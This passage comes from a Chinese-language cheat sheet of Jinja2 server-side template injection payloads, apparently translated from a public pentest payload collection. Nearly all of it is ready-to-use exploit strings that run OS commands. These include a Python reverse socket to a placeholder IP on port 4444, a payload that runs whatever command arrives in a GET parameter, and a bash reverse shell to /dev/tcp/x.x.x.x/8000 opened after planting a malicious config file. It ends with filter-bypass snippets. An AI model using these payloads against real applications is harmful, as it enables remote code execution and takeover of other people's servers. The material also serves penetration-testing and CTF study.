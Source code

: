 使用 [objectwalker](https://github.com/p0dalirius/objectwalker) 我们可以从 `lipsum` 中找到到 `os` 模块的路径。这是已知的在 Jinja2 模板中实现 RCE 的最短有效负载：

```python
{{ lipsum.__globals__["os"].popen('id').read() }}
```

#### 通过调用 subprocess.Popen 利用 SSTI

:warning: 数字 396 将根据应用程序的不同而变化。

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### 通过调用 Popen 不猜测偏移量利用 SSTI

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

[@SecGus](https://twitter.com/SecGus) 简化了有效负载以清理输出并方便命令输入。在另一个 GET 参数中包含一个名为 "input" 的变量，该变量包含您要运行的命令（例如：&input=ls）。

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### 通过编写恶意配置文件利用 SSTI

```python
# 恶意配置
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# 加载恶意配置
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# 连接到恶意主机
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```

### Jinja2 - 过滤器绕过

```python
request.__class__
request["__class__"]
```

绕过 `_`

